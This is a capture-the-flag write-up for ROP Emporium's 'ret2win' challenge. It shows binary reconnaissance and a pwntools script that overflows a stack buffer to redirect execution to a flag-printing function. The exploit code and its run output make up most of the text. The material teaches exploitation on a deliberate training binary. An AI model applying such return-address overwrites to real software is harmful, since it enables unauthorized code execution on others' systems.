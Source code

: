 1. `file ret2win`, gdb-peda `checksec` take a look.

```bash
$ file ret2win
ret2win: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
BuildID[sha1]=19abc0b3bb228157af55b8e16af7316d54ab0597, not stripped
```

```bash
$ gdb-peda ret2win
Reading symbols from ret2win...
(No debugging symbols found in ret2win)
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
gdb-peda$
```

2. `r2 ret2win`, `aa`, `afl`. There're some special function, we'll check them later.

```bash
$ r2 ret2win
[0x004005b0]> aa
[x] Analyze all flags starting with sym. and entry0 (aa)
[0x004005b0]> afl
0x004005b0    1 42           entry0
0x004005f0    4 42   -> 37   sym.deregister_tm_clones
0x00400620    4 58   -> 55   sym.register_tm_clones
0x00400660    3 34   -> 29   sym.__do_global_dtors_aux
0x00400690    1 7            entry.init0
0x004006e8    1 110          sym.pwnme
0x00400580    1 6            sym.imp.memset
0x00400550    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.printf
0x00400590    1 6            sym.imp.read
0x00400756    1 27           sym.ret2win
0x00400560    1 6            sym.imp.system
0x004007f0    1 2            sym.__libc_csu_fini
0x004007f4    1 9            sym._fini
0x00400780    4 101          sym.__libc_csu_init
0x004005e0    1 2            sym._dl_relocate_static_pie
0x00400697    1 81           main
0x004005a0    1 6            sym.imp.setvbuf
0x00400528    3 23           sym._init
[0x004005b0]>
```
3. `s main`, `VV` to see what main function do. it seems nothing special in main function but call the function pwnme and print some strings. So we go to see what happends in the function pwnme.
![Image](https://i.imgur.com/jiYjxOg.png)

4. `s sym.pwnme`, `VV`. In this function, we found the input will be put at **var_20h(rbp-0x20)**. 

![Image](https://i.imgur.com/p38FkK4.png)

![Image](https://i.imgur.com/9WEcrRi.png)

5. let's look at another function ret2win. `s sym.ret2win`, `VV`. we saw it will print the flag we want, so we know that our mission is to BOF the pwnme function's stack and put the address of ret2win function to the return address of pwnme's stack frame.

![Image](https://i.imgur.com/R3cHeB1.png)

6. write the exploit script bellow.

```python
from pwn import *

r = process('./ret2win')
#r = remote('120.114.62.211', 6126)

payload = b'A'*40

r.sendline(payload + p64(0x00400756))  #if 64 bit ,or 32bit use p32

r.interactive()
```
7. run the script and we can get the flag.

```zsh
$ python3 exploit_ret2win.py
[+] Starting local process './ret2win': pid 715
[*] Switching to interactive mode
ret2win by ROP Emporium
x86_64

For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!
What could possibly go wrong?
You there, may I have your input please? And don't worry about null bytes, we're using read()!

> Thank you!
Well done! Here's your flag:
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$
```

the flag is：ROPE{a_placeholder_32byte_flag!}